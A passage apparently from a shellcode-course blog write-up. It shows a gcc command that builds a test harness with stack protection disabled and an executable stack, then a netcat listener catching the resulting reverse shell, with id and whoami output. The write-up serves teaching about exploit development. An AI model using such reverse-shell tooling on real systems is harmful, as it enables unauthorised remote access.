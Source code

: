 To compile it:

```bash
gcc -w -fno-stack-protector -z execstack file.c
```

It worked as expected, spawning a reverse shell in the other window, where I set up the netcat listener:

```bash
rbct@slae:~$ nc -nvl 4444
# fjHh
# Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
whoami
# rbct
exit
rbct@slae:~$ 
```

This type of shellcode would be used in cases where you've already set up a connection to a TCP socket, and you have control over it, so you're able to send the data desired, and most importantly the first 4 bytes specified in the shellcode.

